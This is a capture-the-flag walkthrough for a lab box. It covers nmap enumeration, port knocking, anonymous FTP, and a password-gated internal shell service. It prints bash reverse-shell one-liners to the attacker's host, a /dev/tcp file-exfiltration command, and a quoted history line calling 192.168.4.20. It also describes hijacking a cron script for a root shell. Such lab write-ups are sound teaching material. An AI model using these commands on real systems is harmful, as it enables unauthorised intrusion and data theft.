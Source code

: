 # Enumeration

Staring with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:25 IST
Nmap scan report for 10.10.184.159
Host is up (0.24s latency).

PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp filtered docker
4420/tcp open     nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4420-TCP:V=7.91%I=7%D=6/6%Time=60BD0C2A%P=x86_64-pc-linux-gnu%r(NU
...[snip]...
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.86 seconds
```
Looking at the results, we have port 22 and 8080 open but 21 being marked as filtered (Firewall?).

### Port 8080
Lets start poking at port 8080. It was running `phpbb3`. Its an open source project so we can find github repo for it easily. Looking at files, didn't find anything interesting.
Also there are no default credentials for it. 

So, I started finding a way to find its version number to look for any CVE but nothing. Looking at one of the post, we found 
![image](https://user-images.githubusercontent.com/43528306/120971731-9ab68800-c78a-11eb-9fde-0667f4077293.png)

### FTP

The post says Knock,knock!! ...... hmmm. This maybe a hint for *port-knocking*. So lets try it
```bash
for i in 1111, 2222, 3333, 4444; do nmap -Pn --max-retries 0 -p $i 10.10.243.236; done
```

The above command will check for specified ports, basically knocking at each specified ports only once and in sequence. Nmap default behaviour is to look for port more than once if it didn't responded. 
We can modify it using `max-retries` flag, setting it to 0.

Now we have *FTP* open. Trying for anonymous access and we were in. It had a note.txt stating:
```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
  Connect to port 4420, the password is sardinethecat.
    - catlover
```

### PORT 4420
Interacting with this port using nc, prompt us for password. We have password from previous note file, using it gives us a basic shell. This shell was limited to some function only.
Poking around, didn't find anything interesting. There was only one file named *runme* in `/home/catlover`. To run this we need a better shell than this. 
```bash
# Victim
echo "bash -i >& /dev/tcp/ourIP/port 0>&1" | bash

# attacker
nc -lvnp 9991
```

We now have a better shell. Running the executable, asks us for another password. Trying the previous one we found but it didn't worked. As the shell was limited to some functions, we need to transfer this file to our box
```bash
# Attacker
nc -lvnp 9991 > runme

# Victim
cat runme > /dev/tcp/ourIP/9991
```

We have the file on our local machine. Looking at file info, it was 64-bit ELF file non-stripped. So running strings on it, found
```
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
```
Running the file on victim shell with the password worked. Waiting for few seconds we have a ssh private key file. Using this file, we can ssh into the box.

## ROOT
After gaining the shell, we were already root but we were in a docker-environment.
```bash
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
```

Looking around we saw `.bash_history`. Looking at contents of the file, only interesing things found
```bash
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
```
Changing the contents of clean.sh file to get us a reverse shell. Wait for few seconds, and we have root shell


